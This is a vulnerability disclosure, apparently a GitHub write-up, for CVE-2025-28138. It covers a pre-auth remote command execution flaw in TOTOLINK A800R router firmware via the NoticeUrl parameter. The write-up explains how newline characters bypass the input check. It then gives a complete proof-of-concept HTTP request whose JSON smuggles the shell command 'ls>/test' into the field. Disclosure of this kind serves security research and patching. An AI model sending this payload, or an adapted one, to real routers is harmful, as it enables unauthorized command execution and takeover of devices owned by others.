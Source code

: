 ## RCE-TOTOLINK-A800R V4.1.2cu.5137_B20200730

system.so-setNoticeCfg-NoticeUrl

## CVE-ID
CVE-2025-28138

## PRODUCT

TOTOLINK

## Vendor of Product

https://www.totolink.net/

## VERSION

A800R V4.1.2cu.5137_B20200730

## Firmware

https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/166/ids/36.html

## Vulnerability Type

RCE

## Description

The TOTOLINK A800R V4.1.2cu.5137_B20200730 were found to contain a pre-auth remote command execution vulnerability in the setNoticeCfg function through the NoticeUrl parameter.

The NoticeUrl is user-controllable. The GetDomainName function extracts the domain part from the URL and assigns it to v36. Subsequently, it enters the validity_check function to verify whether special characters are present. If special characters are included, it directly returns.

This function can be bypassed using newline characters, and `\n` can be used in JSON data to achieve this.

![image](https://github.com/user-attachments/assets/7bf08f57-0d51-4db2-bc62-4c699aa52b89)


If no special characters are included, the process continues and triggers the `system` function.

![image](https://github.com/user-attachments/assets/7bb1332b-d08d-4290-ab18-16df913de1c0)


![image](https://github.com/user-attachments/assets/8e24113c-b601-4acf-a4bf-fb5dec2ad39c)
## POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 135

Origin: http://192.168.0.1

Connection: keep-alive

Referer: http://192.168.0.1/firewall/url_filtering.asp?timestamp=1740669963073

Cookie: SESSION_ID=2:1604139547:2



{"topicurl":"setting/setNoticeCfg","NoticeUrl":"bbb\nls>/test\nbb.com","WhiteListUrl1":"1111",

"IpFrom":"123.123.123.0","IpTo":"aaaa"}
```
![image](https://github.com/user-attachments/assets/3f2527f2-ee2a-48ad-bdc1-d43d1a7f974d)




